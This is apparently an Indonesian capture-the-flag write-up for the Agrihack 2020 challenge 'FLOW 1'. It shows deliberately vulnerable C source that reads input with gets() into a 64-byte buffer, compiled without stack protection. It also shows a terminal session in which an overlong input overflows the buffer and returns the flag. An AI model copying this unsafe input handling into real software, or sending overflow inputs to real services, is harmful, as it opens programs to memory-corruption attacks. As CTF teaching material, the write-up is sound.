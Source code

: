 # WriteUp-Agrihack-2020
Daftar Isi

Binary Exploitation
FLOW 1 (100 pts)
Diberikan sebuah source code:

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

//gcc flow1.c -m32 -fno-stack-protector -no-pie -o flow1

void logo(){
  puts("██╗     ██╗███╗   ██╗███████╗");
  puts("██║     ██║████╗  ██║╚══███╔╝");
  puts("██║     ██║██╔██╗ ██║  ███╔╝ ");
  puts("██║     ██║██║╚██╗██║ ███╔╝  ");
  puts("███████╗██║██║ ╚████║███████╗");
  puts("╚══════╝╚═╝╚═╝  ╚═══╝╚══════╝");
}

void setup(){
	setvbuf(stdin,0,2,0);
	setvbuf(stdout,0,2,0);
}


int main(int argc, char **argv)
{
  logo();
  setup();
  volatile int modified;
  char buffer[64];
  modified = 0;
  
  printf("Put some text: ");

  gets(buffer);

  if(modified != 0) {
      system("cat flag.txt");
  } else {
      printf("Try again?\n");
  }
}


Dan sebuah nc 52.187.65.2 17001.
Dari code kita tahu bahwa buffer overflow terjadi ketika data char lebih dari 64 byte, langsung saja kita input karakter lebih dari 64 byte

ilham@ilham-Acer:~$ nc 52.187.65.2 17001
██╗     ██╗███╗   ██╗███████╗
██║     ██║████╗  ██║╚══███╔╝
██║     ██║██╔██╗ ██║  ███╔╝ 
██║     ██║██║╚██╗██║ ███╔╝  
███████╗██║██║ ╚████║███████╗
╚══════╝╚═╝╚═╝  ╚═══╝╚══════╝
Put some text: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
agrihack{Toooooooooo_much_character_is_dangerous_LINZ_IS_HERE}
/home/ctf/run_challenge.sh: line 2:   853 Segmentation fault      (core dumped) ./chall


flag: agrihack{Toooooooooo_much_character_is_dangerous_LINZ_IS_HERE}


